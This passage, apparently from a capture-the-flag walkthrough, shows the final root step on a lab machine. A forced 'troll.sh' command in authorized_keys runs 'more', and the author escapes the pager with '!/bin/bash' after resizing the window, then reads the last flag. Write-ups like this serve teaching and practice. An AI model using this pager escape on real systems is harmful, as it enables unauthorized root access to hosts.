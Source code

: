                                                                                                           
                                                                                                          
                                                                                                          
                                                                                                          
                                                                                                          
Connection to 10.0.0.8 closed. 

Reading the "authorized_keys" file again we see that a the command "troll.sh" is being executed once checking the hosts.

baby@family:~$ sudo cat /root/troll.sh
#!/bin/sh
export TERM=xterm
more /root/welcome.txt
exit 0

Reading the "troll.sh" command we see the it reads a txt file using the "more" command and the exits.

The "more" command is different from "cat" by displaying one screen at a time in case the file is large. The "more" command also allows the user do scroll up and down through the page and execute commands.
That means if we can make the more command think the file it is trying to read is too large we can execute a command.
All we need to is resize the window so the file won't be able to be displayed on the screen.

                          oooo$$$$$$$$$$$$oooo
                      oo$$$$$$$$$$$$$$$$$$$$$$$$o
                   oo$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$o         o$   $$ o$
   o $ oo        o$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$o       $$ $$ $$o$
oo $ $ "$      o$$$$$$$$$    $$$$$$$$$$$$$    $$$$$$$$$o       $$$o$$o$
"$$$$$$o$     o$$$$$$$$$      $$$$$$$$$$$      $$$$$$$$$$o    $$$$$$$$
  $$$$$$$    $$$$$$$$$$$      $$$$$$$$$$$      $$$$$$$$$$$$$$$$$$$$$$$
  $$$$$$$$$$$$$$$$$$$$$$$    $$$$$$$$$$$$$    $$$$$$$$$$$$$$  """$$$
   "$$$""""$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     "$$$
    $$$   o$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     "$$$o
   o$$"   $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$       $$$o
   $$$    $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$" "$$$$$$ooooo$$$$o
  o$$$oooo$$$$$  $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$   o$$$$$$$$$$$$$$$$$
  $$$$$$$$"$$$$   $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     $$$$""""""""
 """"       $$$$    "$$$$$$$$$$$$$$$$$$$$$$$$$$$$"      o$$$
--More--(62%)
!/bin/bash
root@family:~# 

We can now read the final flag.

last_flag.txt:                                                 
Selmorbormir 